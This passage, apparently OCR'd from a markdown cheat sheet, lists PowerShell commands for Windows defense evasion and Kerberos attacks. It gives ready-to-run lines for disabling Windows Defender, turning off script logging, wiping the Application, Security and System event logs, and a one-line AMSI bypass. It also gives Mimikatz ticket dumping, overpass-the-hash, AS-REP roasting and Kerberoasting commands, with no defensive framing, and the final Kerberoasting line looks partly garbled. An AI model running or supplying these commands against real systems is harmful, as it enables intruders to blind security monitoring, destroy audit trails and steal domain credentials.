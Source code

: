 
### **8. Defense Evasion**

#### **Disable Windows Defender**
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

#### **Bypass PowerShell ScriptBlock Logging**
```powershell
Set-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" -Name "EnableScriptBlockLogging" -Value 0
```

#### **Clear Event Logs**
```powershell
wevtutil cl Application
wevtutil cl Security
wevtutil cl System
```

#### **AMSI Bypass**
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

#### **Obfuscate PowerShell Commands**
```powershell
$p = "calc"; & ([ScriptBlock]::Create($p))
```

---

### **9. Kerberos Attacks**

#### **Dump Kerberos Tickets**
```powershell
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

#### **AS-REP Roasting (For Users Without Preauth)**
```powershell
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```

#### **Overpass-the-Hash Attack**
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:DOMAIN /aes128:HASH /run:powershell.exe"'
```

#### **Perform a Kerberoasting Attack**
```powershell
Get-DomainUser -SPN | Get-DomainSPNTicket | Export-Credentials
```
